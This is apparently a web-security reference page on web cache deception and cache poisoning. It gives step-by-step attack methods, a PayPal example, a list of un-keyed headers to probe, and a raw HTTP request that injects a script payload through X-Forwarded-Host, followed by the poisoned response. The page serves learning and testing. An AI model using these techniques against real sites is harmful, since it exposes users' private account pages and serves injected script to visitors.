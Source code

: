# Web Cache Deception Attack

## Tools

* [Param Miner - PortSwigger](https://github.com/PortSwigger/param-miner)
    > This extension identifies hidden, unlinked parameters. It's particularly useful for finding web cache poisoning vulnerabilities.

## Exploit

1. Browser requests `http://www.example.com/home.php/non-existent.css`.
2. Server returns the content of `http://www.example.com/home.php`, most probably with HTTP caching headers that instruct to not cache this page.
3. The response goes through the proxy.
4. The proxy identifies that the file has a css extension.
5. Under the cache directory, the proxy creates a directory named home.php, and caches the imposter "CSS" file (non-existent.css) inside.

## Methodology of the attack - example

1. Normal browsing, visit home : `https://www.example.com/myaccount/home/`
2. Open the malicious link : `https://www.example.com/myaccount/home/malicious.css`
3. The page is displayed as /home and the cache is saving the page
4. Open a private tab with the previous URL : `https://www.paypal.com/myaccount/home/malicous.css`
5. The content of the cache is displayed

Video of the attack by Omer Gil - Web Cache Deception Attack in PayPal Home Page
[![DEMO](https://i.vimeocdn.com/video/674856618.jpg)](https://vimeo.com/249130093)

## Methodology 2

1. Find an un-keyed input for a Cache Poisoning
    ```js
    Values: User-Agent
    Values: Cookie
    Header: X-Forwarded-Host
    Header: X-Host
    Header: X-Forwarded-Server
    Header: X-Forwarded-Scheme (header; also in combination with X-Forwarded-Host)
    Header: X-Original-URL (Symfony)
    Header: X-Rewrite-URL (Symfony)
    ```
2. Cache poisoning attack - Example for `X-Forwarded-Host` un-keyed input (remember to use a buster to only cache this webpage instead of the main page of the website)
    ```js
    GET /test?buster=123 HTTP/1.1
    Host: target.com
    X-Forwarded-Host: test"><script>alert(1)</script>

    HTTP/1.1 200 OK
    Cache-Control: public, no-cache
    [..]
    <meta property="og:image" content="https://test"><script>alert(1)</script>">
    ```

## Labs 

* [PortSwigger Labs for Web cache deception](https://portswigger.net/web-security/all-labs#web-cache-poisoning)

## References

* [Web Cache Deception Attack - Omer Gil](http://omergil.blogspot.fr/2017/02/web-cache-deception-attack.html)
* [Practical Web Cache Poisoning - James Kettle @albinowax](https://portswigger.net/blog/practical-web-cache-poisoning)
* [Web Cache Entanglement: Novel Pathways to Poisoning - James Kettle @albinowax](https://portswigger.net/research/web-cache-entanglement)
* [Web Cache Deception Attack leads to user info disclosure - Kunal pandey - Feb 25](https://medium.com/@kunal94/web-cache-deception-attack-leads-to-user-info-disclosure-805318f7bb29)
* [Web cache poisoning - Web Security Academy learning materials](https://portswigger.net/web-security/web-cache-poisoning)
  - [Exploiting cache design flaws](https://portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws)
  - [Exploiting cache implementation flaws](https://portswigger.net/web-security/web-cache-poisoning/exploiting-implementation-flaws)
